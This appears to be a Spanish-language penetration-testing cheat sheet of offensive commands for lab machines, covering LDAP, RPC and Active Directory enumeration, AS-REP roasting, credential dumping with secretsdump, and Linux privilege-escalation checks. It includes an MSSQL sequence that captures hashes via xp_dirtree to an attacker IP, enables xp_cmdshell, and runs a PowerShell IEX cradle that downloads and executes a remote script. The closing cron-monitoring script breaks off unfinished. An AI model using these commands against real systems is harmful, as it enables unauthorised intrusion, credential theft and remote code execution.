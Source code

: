 
LDAP enum
```
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local"  | grep "@cascade.local"
```
RPC
```
Obtener usuarios
rpcclient -U "" <IP> -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v -E '0x|DefaultAccount|Guest' | sort -u | tr -d '[]'

```

mssql
```
mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth  (Siempre hay que poner un dominio y si no tiene o no sabemos cual, intentar con WORKGROUP)
Capturar hash 
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'  
RCE
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE

xp_cmdshell whoami /all
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.49.235/mario.ps1") | powershell -noprofile'
```
Active Directory
```
lookupsid.py anonymous@10.10.16.53 <-- Obtener usuarios validos

ASREP ROAST
GetNPUsers.py htb.local/ -no-pass -usersfile users.txt

Si tenemos algun usuario admin. Dumpear credenciales
secretsdump.py <DOMINIO>/<USER>:<PASS>@10.10.238.227

sincronizar hora
sudo rdate -n <ip>

```

## Linux Priv esc

### Check List
```
sudo -l <-- Revisar si tenemos scripts en los cuales no tengan rutas relativas o en directorios en los que tengamos permiso de escritura
Buscar SUID
find / -perm -u=s -type f 2>/dev/null
Buscat kernel exploits
uname -a

```
### Script cron check
```bash 
old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
	old_process=$new_process
```